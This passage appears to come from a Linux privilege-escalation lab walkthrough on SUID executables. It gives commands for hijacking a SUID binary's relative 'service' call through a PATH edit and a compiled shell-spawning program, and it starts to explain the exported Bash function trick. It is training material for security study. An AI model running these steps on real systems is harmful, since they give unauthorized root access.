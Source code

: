 Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

    /usr/local/bin/suid-so

Exit out of the root shell before continuing!

## SUID/SGID executables - Environment variables

The `/usr/local/bin/suid-env` executable can be exploited due to it inheriting the user's PATH environment variable 
and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the `apache2` webserver:

    /usr/local/bin/suid-env

Run `strings` on the file to look for strings of printable characters:

    strings /usr/local/bin/suid-env

One line (`service apache2 start`) suggests that the service executable is being called to start the webserver, 
however the full path of the executable (`/usr/sbin/service`) is not being used.

Compile the code located at `/home/user/tools/suid/service.c` into an executable called service. This code simply 
spawns a Bash shell:

    gcc -o service /home/user/tools/suid/service.c

Prepend the current directory (or where the new service executable is located) to the `PATH` variable, and run the 
`suid-env` executable to gain a root shell:

    PATH=.:$PATH /usr/local/bin/suid-env

Exit out of the root shell before continuing!

## SUID/SGID executables - Abusing shell features (#1)

The `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env` except that it uses the 
absolute path of the service executable (`/usr/sbin/service`) to start the `apache2` webserver.

Verify this with `strings`:

    strings /usr/local/bin/suid-env2

In Bash versions `<4.2-048` it is possible to define shell functions with names that resemble file paths, then 
export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than `4.2-048`:

    /bin/bash --version

Create a Bash function with the name `/usr/sbin/service` that executes a new Bash shell (using `-p` so permissions are 
preserved) and export the function:
